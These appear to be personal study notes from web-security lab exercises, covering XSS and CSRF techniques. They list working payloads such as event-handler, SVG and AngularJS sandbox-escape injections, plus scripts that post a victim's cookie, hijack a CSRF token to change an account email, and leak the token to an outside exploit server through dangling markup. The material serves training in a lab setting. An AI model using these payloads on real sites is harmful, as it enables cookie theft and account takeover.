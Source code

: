 A `<script>` tag inserted with `innerHTML` will not execute.

jQuery selector vulnerability: (recent version has fixed this)
`var post = $('section.blog-list h2:contains(' + decodeURIComponent(window.location.hash.slice(1)) + ')');`
this will always result in creating a new node in the background of the DOM when a node is passed to the `contains` method

Auto foucs: use fragment `#x`

    <my-tag id='x' onfocus=alert() tabindex=0></my-tag>

Accesskey: add this attribute `accesskey='x' onclick=alert()`
- On Windows: `ALT+SHIFT+X`
- On MacOS: `CTRL+ALT+X`
- On Linux: `Alt+X`

The closing tag inside quotes will be treated as HTML entity not a string, therefore this will be executed:

    <script>var x = 'hello</script>'

Bypass single/double quotes and backslash escape using HTML encoding and take advantage of Javascript precedence:

    <a href="http://aha?'-alert(1)-'" onclick="var tracker={track(){}};tracker.track('http:/aha?&apos;-alert(1)-&apos;');">avvv</a>

Consider `x = 'http:/aha?' - alert(1) - ''` -> `alert(1)` will be executed first and then return undefined, `'http:/aha?'` will be converted to a number but since it's not a valid number, it would be NaN -> x = NaN

Make the victim post the comment showing it's cookie:

    <form
      id="my-form"
      action="/post/comment"
      method="POST"
      enctype="application/x-www-form-urlencoded"
    >
      <input type="hidden" name="postId" value="4" />
      <input type="hidden" name="comment" id="cmt" />
      <input type="hidden" name="csrf" id="csrf" />
      <input type="hidden" name="name" value="victim" />
      <input type="hidden" name="email" value="haha@gmai.com" />
      <input type="hidden" name="website" value="http://ahav.com" />
    </form>
    <script>
      setTimeout(() => {
        originalCsrf = document.getElementsByName("csrf")[1];

        myform = document.getElementById("my-form");
        comment = document.getElementById("cmt");
        csrf = document.getElementById("csrf");
        comment.value = document.cookie;
        csrf.value = originalCsrf.value;
        myform.submit();
      }, 1000);
    </script>

Create script to silmutanously getting the csrf value and sending the change-email request:

    <script>
      var req = new XMLHttpRequest();
      req.onload = send;
      req.open("get", "/my-account", true);
      req.send();
      function send() {
        var token = this.responseText.match(/name="csrf" value="(\w+)"/)[1];
        var changeReq = new XMLHttpRequest();
        changeReq.open('post', '/my-account/change-email', true);
        changeReq.send('csrf='+token+'&email=test@test.com')
      }
    </script>

Use `<svg>` with `<animate>` to set attribute to `<a>` tag

    <svg>
        <a>
            <animate attributeName="href" values="javascript:alert(1)" />
            <text x="20" y="20">Click me</text>
        </a>
    </svg>

Inject `script-src-elem 'unsafe-inline` to allow the execution of inline script

Dangling markup attack to steal CSRF token:
when the CSRF token is below the place where dangling markup attack could occur, use this to send the CSRF to a listening server
`<a href='https://exploit-0aed003e03a2984d80fa02d801000015.exploit-server.net/exploit?`
This will make a GET request to the server with the parameter containing the CSRF token.

### LAB: Reflected XSS with AngularJS sandbox escape without strings

    toString().constructor.prototype.charAt=[].join;[1]|orderBy:toString().constructor.fromCharCode(120,61,97,108,101,114,116,40,49,41)=1

**Execution Chain:**
| **Step** | **What Happens?** |
|----------|------------------|
| **1** | `charAt` is modified to `[].join`, enabling further manipulation. |
| **2** | `fromCharCode()` constructs `"x=alert(1)"` dynamically. |
| **3** | `orderBy` evaluates `"x=alert(1)"=1`, which executes `alert(1)`. |
| **4** | **XSS is triggered**. |
